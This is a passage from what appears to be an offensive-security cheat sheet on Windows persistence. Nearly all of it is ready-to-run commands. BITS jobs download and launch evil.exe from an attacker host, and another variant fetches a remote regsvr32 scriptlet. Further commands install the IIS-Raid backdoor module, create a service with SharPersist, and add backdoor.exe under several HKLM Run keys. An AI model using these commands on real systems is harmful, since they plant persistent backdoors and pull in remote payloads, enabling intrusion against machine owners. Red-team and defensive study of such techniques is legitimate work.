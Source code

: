 
### BITS Jobs

```powershell
bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://10.10.10.10/evil.exe"  "C:\tmp\evil.exe"

# v1
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\evil.exe NUL
bitsadmin /SetMinRetryDelay "backdoor" 60
bitsadmin /resume backdoor

# v2 - exploit/multi/script/web_delivery
bitsadmin /SetNotifyCmdLine backdoor regsvr32.exe "/s /n /u /i:http://10.10.10.10:8080/FHXSd9.sct scrobj.dll"
bitsadmin /resume backdoor
```

## Serviceland

### IIS

IIS Raid – Backdooring IIS Using Native Modules

```powershell
$ git clone https://github.com/0x09AL/IIS-Raid
$ python iis_controller.py --url http://192.168.1.11/ --password SIMPLEPASS
C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:Module Name /image:"%windir%\System32\inetsrv\IIS-Backdoor.dll" /add:true
```

### Windows Service

Using SharPersist

```powershell
SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add
```

## Elevated

### Registry HKLM

Similar to HKCU. Create a REG_SZ value in the Run key within HKLM\Software\Microsoft\Windows.

```powershell
Value name:  Backdoor
Value data:  C:\Windows\Temp\backdoor.exe
```

Using the command line 

```powershell
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
```
